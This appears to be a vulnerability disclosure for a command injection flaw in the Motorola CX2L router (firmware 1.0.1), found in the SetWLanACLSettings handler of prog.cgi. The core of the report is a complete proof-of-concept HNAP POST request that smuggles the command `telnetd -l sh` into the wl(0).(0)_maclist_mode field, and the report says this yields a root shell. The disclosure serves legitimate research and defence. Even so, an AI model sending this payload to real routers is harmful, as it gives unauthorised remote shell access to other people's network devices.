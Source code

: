 # Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetWLanACLSettings` function, `wl(0).(0)_maclist_mode、wl(0).(0)_maclist` is directly passed by the attacker, so we can control the `wl(0).(0)_maclist_mode、wl(0).(0)_maclist` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `wl(0).(0)_maclist_mode` as **`telnetd -l sh`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetWLanACLSettings"
HNAP_AUTH: B6E6C58F8FFE4AD1D49B2C35FC3D09A1 1749732801850
Content-Length: 115
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/AdvWlanAccess.html
Cookie: work_mode=router; uid=xGS0QJg%2F; PrivateKey=2B0AD3C16F6ECE949E0E3B0BC34DD592; timeout=27

{"SetWLanACLSettings":{"wl(0).(0)_maclist_mode":"`telnetd -l sh`","wl(0).(0)_maclist":"pjqwudi,12:12:12:12:12:12"}}
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
